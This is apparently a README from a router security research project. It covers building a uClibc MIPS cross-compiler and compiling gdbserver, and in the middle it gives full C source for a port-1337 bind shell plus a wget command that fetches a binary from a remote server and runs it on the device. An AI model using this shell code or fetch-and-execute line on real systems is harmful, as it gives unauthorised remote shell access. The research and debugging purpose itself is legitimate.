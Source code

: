# MIPS Binary Compilation
The output for the `file` command on compiled binaries like `hlRouterApp` is:

```
hlRouterApp: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, no section header
```

This means these binaries contain 32-bit, little endian MIPS assembly (rel2 specifically) using `uClibc` as their library and not `Glibc`. To create our own binaries that can run on this architecture, we will have to cross-compile for the MIPS architecture using the [uClibc](https://www.uclibc.org/) [toolchain](https://buildroot.org/). 

## Building the uClibc Toolchain
Note that I followed the directions from [here](https://www.uclibc.org/toolchains.html). Download the latest version of `buildroot` from https://buildroot.org/download.html and extract the compressed file (for demonstration purposes, I downloaded and extracted mine to `/opt/buildroot`). Go into that directory and run `make menuconfig` to configure the environment for the proper toolchain:

* Target Options -> Target Architecture = `MIPS (little endian)`
* Target Options -> Target Archtiecture Variant = `Generic MIPS32R2`
* Toolchain -> C library = `uClibc-ng` (technically `uClibc-ng` is different than `uClibc`, but it still seems to mostly work)
* Toolchain -> Kernel Headers = `Linux 4.14.x kernel headers` (I chose the oldest one that didn't require I attach headers myself)
* Save (DON'T FORGET THIS)

At this point, run `make` (and install any missing dependencies). This will take a while, but once it's done you should have everything you need in `/opt/buildroot/output/host/bin`. Just to explain, what this means is the `./mipsel-buildroot-linux-uclibc-gcc` binary in that directory can run on your x86 machine, but when invoked will create MIPS32 binaries that will run on the Vilo router (utilizing the uClibc library). 

## Compiling a Bind Shell
We used a vulnerability we found to get RCE on the device, but we wanted a more stable shell that we could connect to over the network to simplify access. We just modified some C code we found online to create [`shell.c`](./compilation/shell.c):

```c
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main() {
    int resultfd, sockfd;
    int port = 1337;
    struct sockaddr_in my_addr;
    
    // sycall socketcall (sys_socket 1)
    sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // syscall socketcall (sys_setsockopt 14)
    int one = 1;
    setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one));

    // set struct values
    my_addr.sin_family = AF_INET; // 2
    my_addr.sin_port = htons(port); // port number
    my_addr.sin_addr.s_addr = INADDR_ANY; // 0 fill with the local IP

    // syscall socketcall (sys_bind 2)
    puts("Binding to socket...");
    bind(sockfd, (struct sockaddr *) &my_addr, sizeof(my_addr));

    // syscall socketcall (sys_listen 4)
    listen(sockfd, 0);
    puts("Waiting for connection");

    // syscall socketcall (sys_accept 5)
    resultfd = accept(sockfd, NULL, NULL);
    puts("Accepted a connection");

    // syscall 63
    dup2(resultfd, 2);
    dup2(resultfd, 1);
    dup2(resultfd, 0);
    puts("If you see this, you're in the shell!");

    system("/bin/ash");

    return 0;
}
```

When this code is compiled and ran, a socket will listen on port 1337 and the first person to connect will have a `/bin/ash` shell available to them. We could probably have made a nicer one that give full TTY, allow multiple people to access simultaneously, and not require restarting the binary once the first person disconnects form the shell, but we're lazy. 

The file was compiled as follows:
```bash
root@cc85a8908127:/opt/buildroot/output/host/bin$ ./mipsel-buildroot-linux-uclibc-gcc -o shell shell.c
root@cc85a8908127:/opt/buildroot/output/host/bin$ file shell
shell: ELF 32-bit LSB pie executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, not stripped
```

Note that most code online uses `execve("/bin/sh", NULL, NULL)` instead of `system("/bin/sh")`. We tried that and it kept segfaulting, and it wasn't until later that we learned that the **second argument can't be NULL**, it must contain the actual arguments. `env` can be NULL, however.

The compiled binary `shell` is [attached here](./compilation/shell). To get this binary on the box, we simply hosted a public webserver serving this file and used the built-in BusyBox `wget` command to download it - `wget http://<IP>/shell -O /tmp/s && chmod 777 /tmp/s && /tmp/s`. 

## Compiling `gdbserver`
To help us debug some pwn exploits, we wanted to compile `gdbserver` so it would run on the box and expose a debugging socket for us to connect to. This required building `gdbserver` from scratch using the toolchain we built before (following fantastic instructions [here](https://sourceware.org/gdb/wiki/BuildingCrossGDBandGDBserver)). We cloned the GDB repository using `git clone git://sourceware.org/git/binutils-gdb.git gdb`. To ensure building `gdbserver` used our uClibc toolchain, we ran the following commands:

```bash
export PATH=/opt/buildroot/output/host/bin:$PATH
export TARGET=mipsel-buildroot-linux-uclibc
```

The uClibc toolchain is old enough that the latest version of GDB can't be built using it due to some dependency requirements. Instead, we compiled `gdbserver` using GDB v7.11. All the commands we ran are listed below:

```bash
cd /opt/gdb
git checkout tags/gdb-7.11-branchpoint
cd /opt/gdb/gdb/gdbserver
./configure --target=$TARGET
make
make install DESTDIR=/tmp
cp /tmp/usr/local/bin/gdbserver /opt/gdbserver
```

And now the `gdbserver` executable is ready to run and located in `/opt`! It's also included in this repository [here](./compilation/gdbserver).

*Note - this executable runs fine on the router until some connects to the remote port to debug, then it segfaults. We're not sure why (maybe because it's an older version of `gdbserver`? Perhaps because it wasn't compiled with the exact kernel version, or is using uClibc-ng?)*